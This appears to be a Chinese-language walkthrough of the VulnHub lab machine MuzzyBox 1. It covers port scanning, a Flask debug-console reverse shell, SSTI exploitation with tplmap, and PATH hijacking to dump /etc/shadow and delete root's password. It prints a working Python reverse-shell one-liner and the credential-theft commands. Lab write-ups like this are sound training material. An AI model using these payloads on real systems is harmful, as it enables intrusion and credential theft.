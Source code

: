 ## MuzzyBox: 1: Walkthrough

### 主机识别

`nmap -sn 192.168.1.1/24`

### 网络拓扑

| 计算机   | IP              |
| -------- | --------------- |
| Kali     | `192.168.1.107` |
| MuzzyBox | `192.168.1.105` |

### 扫描端口和版本信息

`nmap -A 192.168.1.105`

![2](../src/vulnhub/muzzybox/2.png)

### 访问Web并确认web应用

访问 *80* 端口我们看到有三个挑战，看来需要逐个通过这些挑战

### 挑战 1

![3](../src/vulnhub/muzzybox/3.png)

根据页面信息是需要上传一张图片来识别，刚开始认为是参考图片中存在某些信息，不过分析过后并没有什么特别。多次尝试后又根据提示是需要上传它的 *screenshot*，看来是要修改这个*idcard*

![idcard](../src/vulnhub/muzzybox/idcard.png)

![4](../src/vulnhub/muzzybox/4.png)

>  得到第一个重要信息：`P!N_!$_123-456-789}`

### 挑战 2

这是一个 *Flask* 应用，并且打开了 **debug** 调试模式，可能可以执行系统命令[^1]

![5](../src/vulnhub/muzzybox/5.png)

将该代码复制到 *console* 执行，并在 Kali 上开启监听即可 *getshell*

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.107",6677));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

![6](../src/vulnhub/muzzybox/6.png)

> 得到第二个重要信息：`N$cTF{R34D_F!L3_/home/webssti/noflag.txt}`

看来我们的下一个目标就是读取该文件：`/home/webssti/noflag.txt`

### 挑战 3

![7](../src/vulnhub/muzzybox/7.png)

测试发现存在 *XSS* 漏洞，不过这里是 **SSTI** 漏洞。为了利用该漏洞，使用 **tplmap** 开源工具

```python
git clone https://github.com/epinna/tplmap.git
cd tplmap/
ls
python2 tplmap.py -u "http://192.168.1.105:15000/page?name=muzzy" --os-shell
```

![8](../src/vulnhub/muzzybox/8.png)

> 得到第三个重要信息：`ssh nsctf iamnsce`

接下来我们就是用 *ssh* 连接虚拟机，并且发现该目录（`/usr/local/sbin`）的用户组是 *nsctf*，也就说明该目录下的命令我们都可以执行

![9](../src/vulnhub/muzzybox/9.png)

在该目录下新建 `ls` 文件，并且也可以删除 *root* 用户的密码

```
cat /root/Final_Flag.txt > /home/nsctf/flag.txt
cat /etc/passwd > /home/nsctf/passwd.txt
cat /etc/shadow > /home/nsctf/shadow.txt
passwd -d root
```

![10](../src/vulnhub/muzzybox/10.png)

### 总结

虽然通过`uname -r`看到该Linux内核版本是：*4.15.0-88-generic*，经过 OSINT 找到该 exp[^2]，但是需要某些命令支持，并且低权限用户不具备安装软件条件

### Ref.

- [hackingarticles](https://www.hackingarticles.in/muzzybox-1-vulnhub-walkthrough/)

---

[^1]: [Flask 打开 Debug 模式直接 getshell](https://blog.ixuchao.cn/archives/32.html)
[^2]: [exploit-db](https://www.exploit-db.com/exploits/47166)

